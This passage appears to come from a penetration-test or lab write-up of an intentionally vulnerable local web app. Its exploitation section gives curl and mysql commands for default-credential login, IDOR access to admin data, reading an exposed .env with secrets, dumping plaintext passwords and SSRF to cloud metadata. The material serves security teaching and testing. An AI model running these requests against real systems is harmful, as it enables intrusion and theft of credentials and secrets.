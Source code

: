 ### 4. Exploitation
**Objective:** Actively exploit discovered vulnerabilities

**Exploits Executed:**

**A. Broken Authentication:**
```bash
# Successful login with default credentials
curl -X POST http://localhost:3000/wcorp/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}'

# Response includes JWT token
# TOKEN=$(echo $response | jq -r '.token')
```

**B. Broken Access Control (IDOR):**
```bash
# Access admin profile as regular user
curl -H "Authorization: Bearer <token>" \
  http://localhost:3000/wcorp/api/user/profile/1

# Access sensitive data
curl -H "Authorization: Bearer <token>" \
  http://localhost:3000/wcorp/api/user/sensitive/1

# Access internal notes
curl -H "Authorization: Bearer <token>" \
  http://localhost:3000/wcorp/api/user/notes/1
```

**C. Security Misconfiguration:**
```bash
# Access exposed configuration
curl http://localhost:3000/.env

# Reveals:
# - DB_PASSWORD
# - JWT_SECRET
# - Database connection details
```

**D. Cryptographic Failures:**
```bash
# Query database to see plain text passwords
# (requires database access obtained through other means)
mysql -h localhost -u wcorp_user -p wcorp_db \
  -e "SELECT username, password FROM users;"
```

**E. SSRF Exploitation:**
```bash
# Access internal services
curl "http://localhost:3000/wcorp/api/fetch-url?url=http://localhost:3306"

# Attempt cloud metadata access (if deployed on cloud)
curl "http://localhost:3000/wcorp/api/fetch-url?url=http://169.254.169.254/latest/meta-data/"
```

